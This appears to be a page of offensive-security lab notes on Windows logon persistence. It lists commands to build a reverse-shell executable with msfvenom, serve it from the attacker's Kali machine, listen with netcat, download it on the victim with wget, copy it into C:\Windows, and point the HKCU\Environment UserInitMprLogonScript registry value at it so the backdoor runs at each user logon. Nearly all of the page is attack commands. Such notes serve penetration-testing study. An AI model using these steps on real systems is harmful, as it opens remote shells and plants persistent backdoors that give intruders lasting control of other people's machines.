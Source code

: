 **Kali**

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=4453 -f exe -o revshell.exe
```

**Kali**

```
python3 -m http.server
```

**Kali #2**

```
nc -lvnp 4453
```

**Victim(powershell)**

```
wget http://$KALI:8000/revshell.exe -O revshell.exe
```

**Victim(powershell)**

```
move revshell.exe C:\Windows
```

To create an environment variable for a user, you can go to its `HKCU\Environment` in the registry. We will use the `UserInitMprLogonScript` entry to point to our payload so it gets loaded when the users logs in:

**NOTE:** Remember to open registry without PsExec64 to have 'HKCU\Environment' for the current logged user. (PsExec64 starts registry with SYSTEM).

**Victim(powershell)**

<pre><code><strong>regedit
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (4) (1) (4) (2).png" alt=""><figcaption></figcaption></figure>

Notice that this registry key has no equivalent in HKLM, making your backdoor apply to the current user only.
